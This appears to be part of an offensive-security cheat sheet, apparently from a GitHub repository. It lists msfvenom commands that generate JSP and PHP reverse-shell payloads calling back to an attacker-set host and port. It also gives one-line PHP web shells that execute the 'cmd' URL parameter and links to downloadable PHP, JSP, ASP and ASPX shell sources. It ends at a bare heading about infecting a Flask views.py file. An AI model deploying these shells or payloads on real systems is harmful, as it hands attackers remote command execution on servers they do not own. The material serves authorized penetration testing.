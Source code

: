 ```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter) - Reverse Shell

```sh
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or 
[pentest monkey php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
[php reverse shell](https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php)

## Web Shells

### PHP

```php
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP

 [fuzz webshell](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp)

```sh
locate cmdjsp.jsp
```

### ASP

[cmd-asp-5.1.asp](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd-asp-5.1.asp)\
[cmdasp.asp](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.asp)

```sh
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX

[cmdasp](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx)

```
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)
